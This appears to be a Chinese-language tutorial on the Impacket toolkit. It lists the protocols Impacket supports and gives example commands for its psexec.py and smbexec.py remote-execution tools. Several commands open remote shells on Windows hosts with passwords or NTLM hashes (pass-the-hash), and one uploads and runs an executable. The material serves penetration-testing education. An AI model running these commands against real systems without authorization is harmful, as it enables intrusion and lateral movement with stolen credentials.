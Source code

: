 Using Impacket's image:

```
$ docker run -it --rm "impacket:latest"
```



## 包含的协议

- 以太网，Linux“Cooked”数据包捕获
- IP，TCP，UDP，ICMP，IGMP，ARP
- 支持IPv4和IPv6
- NMB和SMB1，SMB2和SMB3（高级实现）
- MSRPC版本5，通过不同的传输协议：TCP，SMB / TCP，SMB/NetBIOS和HTTP
- 使用密码/哈希/票据/密钥进行简单的NTLM和Kerberos身份验证
- 部分或完全实现以下MSRPC接口：EPM，DTYPES，LSAD，LSAT，NRPC，RRP，SAMR，SRVS，WKST，SCMR，BKRP，DHCPM，EVEN6，MGMT，SASEC，TSCH，DCOM，WMI
- 部分TDS（MSSQL）和LDAP协议实现。







## 包含的工具

![查看](http://image.geoer.cn/2022-05-09-113402.png)



### 远程执行

- psexec.py:类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom）Psexec.py允许你在远程Windows系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程shell命令（不需要安装任何客户端软件）。

  ```bash
  # 语法: ./psexec.py [[domain/] username [: password] @] [Target IP Address]
  ./psexec.py SERVER/Administrator: T00r@192.168.1.140
  
  
  /psexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@172.16.99.146
  
  ./psexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@192.168.124.136 -c /root/1.exe
  
  ```

  

- smbexec.py：与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。我们的实现更进一步，实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。

  ```bash
  # smbexec
  ./smbexec.py test/administrator@192.168.23.99 -hashes aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678 #左面是lm-hash，右边是nt-hash，lmhash可以为空
  
  ./smbexec.py -hashes :3dbde697d71690a769204beb12283678 test/administrator@192.168.23.99
  
  ./smbexec.py test/administrator:123@192.168.23.99
  
  ```
